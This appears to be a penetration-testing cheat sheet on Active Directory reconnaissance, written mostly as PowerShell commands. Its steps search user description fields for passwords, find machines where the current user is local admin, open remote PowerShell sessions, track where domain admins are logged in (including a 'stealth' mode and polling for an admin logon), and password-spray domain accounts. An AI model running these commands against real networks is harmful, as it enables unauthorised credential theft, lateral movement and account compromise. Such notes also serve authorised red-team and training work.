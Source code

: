 ## USER HUNTING

---
#### HUNTING JUICY NOTE
```powershell
Find-UserField -SearchField Description -SearchTerm "pass"
Find-UserField -SearchField Description -SearchTerm "admin"
Find-UserField -SearchField Description -SearchTerm "manage"
...
```

---
#### HUNTING ADMIN ACCESS
- Find all machines on the current domain where the current user has local admin access (Get-NetComputer + Invoke-CheckLocalAdminAccess)
```powershell
Find-LocalAdminAccess -Verbose
```

---
#### HUNTING PSREMOTE ACCESS
- Find Administrative access
```powershell
. .\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
# No Stateful
Enter-PSSession -ComputerName targetcomputer.target.domain.local
# Stateful
$sess = New-Pssession -ComputerName targetcomputer.target.domain.local
Enter-Pssession -session $sess
```

---
#### HUNTING WMI ACCESS
- If RPC and SMB are blocked check with WMI
```powershell
. .\Find-WMILocalAdminAccess.ps1
```

---
#### HUNTING ADMIN
- Find local admins on all machines of the domain (Get-NetComputer+Get-
NetLocalGroup)
```powershell
Invoke-EnumerateLocalAdmin -Verbose
```

---
#### HUNTING SESSION
- Find computers where a domain admin (or specified user/group) has sessions
```powershell
Invoke-UserHunter
Invoke-UserHunter -GroupName "RDPUsers"
```
- Confirm admin access
```powershell
Invoke-UserHunter -CheckAccess
```

---
#### HUNTING DOMAIN ADMIN
- Find computers where a domain admin is logged-in ( Get-NetSession / Get-NetLoggedon )
```powershell
Invoke-UserHunter -Stealth
```
- WAIT FOR INCOMING SESSINON
```powershell
Invoke-UserHunter -ComputerName targetserver -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

---
#### PASSWORD SPRAYING
```powershell
# CHECK POLICY AND CARE TO NOT LOCK ACCOUNTS
(Get-DomainPolicy)."system access"
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
:warning: CHECK POLICY AND CARE TO NOT LOCK ACCOUNTS<br />
:warning: VERY NOISY

| Setting Key | Explaination |
|-|-|
| LockoutDuration | The number of minutes that a locked-out account MUST remain locked out before automatically becoming unlocked.<br />-1 = MUST be unclock by admin<br />other = number of minutes|
| LockoutBadCount | Number of failed logon attempts after which a user account MUST be locked out. |
| ResetLockoutCount | Number of minutes after a failed logon attempt that the account MUST be locked out |

#### PWDLASTSET
- Use this command to see the last password set of each user in the current domain
```powershell
Get-UserProperty -Properties pwdlastset
```

